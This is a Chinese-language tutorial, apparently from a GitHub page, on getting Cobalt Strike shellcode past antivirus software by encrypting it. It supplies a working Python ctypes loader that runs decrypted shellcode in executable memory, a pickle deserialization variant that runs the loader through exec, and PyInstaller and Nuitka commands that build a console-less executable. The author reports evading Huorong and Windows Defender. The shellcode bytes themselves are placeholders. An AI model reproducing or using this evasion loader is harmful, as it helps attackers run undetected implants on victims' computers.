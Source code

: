 # 通过加密shellcode方式过安全软件拦截实验

先说结论，笔者没成功过360

- ## shellcode：

  ```shell
  Shellcode 是一段用于在目标系统上执行特定操作的机器码。它通常被用于利用软件漏洞，以获取对目标系统的控制权或执行特定的恶意行为。 Shellcode 可以执行诸如创建进程、提升权限、下载和执行其他恶意软件等操作。编写有效的 Shellcode 需要对目标系统的架构、内存布局和操作系统的特性有深入的了解。 在安全领域，研究人员和攻击者都会涉及到 Shellcode 的相关知识，前者用于发现和防范漏洞利用，后者则用于实施攻击。#通常是字节数组
  ```

  这里可以用cs或者msf等工具生成类似的shellcode用于去目标机器执行

- ## 加密免杀：

  ```
  没做如何处理的shellcode特征码容易被杀毒软件监测，而加密免杀则是提前用加密算法对shellcode进行一次加密，再执行代码中则将加密后的shellcode进行解密，再执行。由于shellcode是加密后的，因此不容易被杀软本身所监测
  ```

- ## 实验复现

  环境：宿主机Windows11 ,pycharm，cs，VMware搭建的windows10 2019未更新defender

  1. 使用cs生成的shellcode

     ![image-20240803131640104](http://111.229.225.13:81/i/2024/08/03/m8u0dq-2.png)

  2. 对shellcode进行加密

     ```cpp
     /* length: 893 bytes */
     unsigned char buf[] = "\xwc\x49\...\x85\xad";//这是不全的，实验复现时自己用工具生成
     ```

     加密算法：base64,AES，自定义

     ```python
     def encrypt(public_key, plaintext):
         e, n = public_key
         cipher = [pow(byte, e, n) for byte in plaintext]
         return (cipher)
     
     def decrypt(private_key, ciphertext):
         d, n = private_key
         plain = [pow(byte, d, n) for byte in ciphertext]
         return bytes(plain)
     
     # 固定的公钥和私钥
     public_key = (65537, 3233)  # e 和 n
     private_key = (2753, 3233)  # d 和 n
     message = b"\xwc\x49\...\x85\xad"
     
     # print("原始消息:", message)
     
     encrypted_msg = encrypt(public_key, message)
     print("加密后的消息:", encrypted_msg)
     ```

     ```
     假设加密后的结果为:b"adadaawda"
     ```

     放进执行器中

     ```python
     def decrypt(private_key, ciphertext):
         d, n = private_key
         plain = [pow(byte, d, n) for byte in ciphertext]
         return bytes(plain)
     
     def set_shellcode(buf):
         # 加载shellcode
         VirtualAlloc = ctypes.windll.kernel32.VirtualAlloc
         RtlMoveMemory = ctypes.windll.kernel32.RtlMoveMemory
         CreateThread = ctypes.windll.kernel32.CreateThread
         WaitForSingleObject = ctypes.windll.kernel32.WaitForSingleObject
         shellcode = bytearray(buf)
         VirtualAlloc.restype = ctypes.c_void_p
         p = VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)), 0x3000, 0x00000040)
         buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
         RtlMoveMemory(ctypes.c_void_p(p), buf, ctypes.c_int(len(shellcode)))
         h = CreateThread(ctypes.c_int(0), ctypes.c_int(0), ctypes.c_void_p(p), ctypes.c_int(0), ctypes.c_int(0), ctypes.pointer(ctypes.c_int(0)))  # 执行创建线程
         WaitForSingleObject(ctypes.c_int(h), ctypes.c_int(-1))
     
     def main():
         encrypt_buf = b"adadaawda"
         buf = decrypt(private_key, encrypt_buf)
         set_shellcode(buf)
     ```

     ```shell
     #使用 pyinstaller生成exe文件
     pip install pyinstaller
     pyinstaller -w --onefile 执行器.py #-w生成的exe不会产生控制台，--onefile只生成一个文件
     ```

  3. 直接丢入虚拟机中

     ```
     结果：尝试的base64，aes,自定义rsa算法均没绕过火绒，（360未测试），自定义rsa算法绕过defender，但运行后不久被杀
     ```

- ## 这里改用其他工具打包exe,py2exe使用时需要dll依赖，没解决这个问题，改用Nuitka成功过火绒和defender

  1. Nuitka有点坑，要求下载mingw-gcc，但是它似乎不相信你下载的，哪怕拿他自己下载的链接地址下载也没用，这里就老实跟着它自己下载

     第二个坑点在于，如果你安装了微信小程序，微信小程序中的环境变量会和Nuitka有冲突这时候只需要修改微信小程序的环境变量名称即可

     ```shell
     笔者修改前C:\Program Files (x86)\Tencent\微信web开发者工具\dll
     #原来的文件夹路径也要改
     笔者修改后C:\Program Files (x86)\Tencent\微信web开发者工具\dll-bak
     ```

     

  2. Nuitka命令

     ```shell
     #下载 
     pip install Nuitka
     --windows-disable-console   #不显示控制台窗口
     
     --windows-icon=ICON_PATH  #添加ico
     
     --nofollow-imports  # 所有的import不编译，交给python3x.dll执行
     
     --follow-import-to=need  #need为你需要编译成C/C++的py文件夹命名
     
     --mingw64  #mingw(官方建议编译器)
     
     --standalone #独立环境，这是必须的(否则拷给别人无法使用)
     
     --windows-disable-console #没有CMD控制窗口
     
     --output-dir=out #生成文件路径
     
     --show-progress #显示编译的进度，很直观
     
     --show-memory #显示内存的占用
     
     --include-qt-plugins=sensible,styles #打包后PyQt的样式就不会变了
     
     --plugin-enable=qt-plugins #需要加载的PyQt插件
     
     --plugin-enable=tk-inter #打包tkinter模块的刚需
     
     --plugin-enable=numpy #打包numpy,pandas,matplotlib模块的刚需
     
     --plugin-enable=torch #打包pytorch的刚需
     
     --plugin-enable=tensorflow #打包tensorflow的刚需
     
     --windows-uac-admin=Windows #用户可以使用管理员权限来安装
     
     --onefile  #打包成单个exe文件
     
     #编译python 命令参考
     nuitka --standalone --mingw64 --windows-disable-console set_shellcode.py
     ```

- ## python反序列化

  利用_\_reduce_\_方法调用序列化的代码并且执行

  ```python
  #编码
  import pickle
  import base64
  shellcode = """
  import ctypes,base64
  buf = base64.b64decode(b'shellcodebyencode')
  VirtualAlloc = ctypes.windll.kernel32.VirtualAlloc
  RtlMoveMemory = ctypes.windll.kernel32.RtlMoveMemory
  CreateThread = ctypes.windll.kernel32.CreateThread
  WaitForSingleObject = ctypes.windll.kernel32.WaitForSingleObject
  shellcode = bytearray(buf)
  VirtualAlloc.restype = ctypes.c_void_p  # 重载函数返回类型为void
  p = VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)), 0x3000, 0x00000040)  # 申请内存
  buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)  # 将shellcode指向指针
  RtlMoveMemory(ctypes.c_void_p(p), buf, ctypes.c_int(len(shellcode)))  # 复制shellcode进申请的内存中
  h = CreateThread(ctypes.c_int(0), ctypes.c_int(0), ctypes.c_void_p(p), ctypes.c_int(0), ctypes.c_int(0), ctypes.pointer(ctypes.c_int(0)))  # 执行创建线程
  WaitForSingleObject(ctypes.c_int(h), ctypes.c_int(-1))  # 检测线程创建事件"""
  
  class A(object):
  
      def __reduce__(self):
  
          return (exec, (shellcode,))
  
  ret = pickle.dumps(A())
  ret_b64 = base64.b64encode(ret)
  
  print(ret_b64)
  
  #解码
  import base64,pickle,ctypes
  shellcode_list = [29,10]
  private_key = (2753, 3233)
  d, n = private_key
  shellcode = bytes([pow(byte, d, n) for byte in shellcode_list])
  
  pickle.loads(base64.b64decode(shellcode))
  ```

  这里用了自定义的rsa加密再编码了一次,但是依旧没有过360（和迪总做的的不一样啊）360变强了